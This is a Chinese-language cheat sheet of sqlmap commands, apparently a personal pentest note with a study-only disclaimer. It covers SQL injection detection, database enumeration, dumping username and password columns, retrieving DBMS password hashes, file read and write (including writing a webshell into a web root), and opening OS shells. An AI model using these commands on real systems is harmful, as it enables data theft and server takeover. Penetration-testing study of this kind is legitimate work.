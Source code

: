 # sqlmap 小记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Reference
- [Sqlmap使用教程【个人笔记精华整理】 | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入，使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL -dbms mysql -level 3   # 指定数据库类型为 mysql，级别为 3（共 5 级，级别越高，检测越全面）

sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
```

**获取信息**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据

sqlmap -u URL --passwords   # 获取当前数据库密码
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password。
```

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注：mysql 不支持列目录，仅支持读取单个文件。sqlserver 可以列目录，不能读写文件，但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```
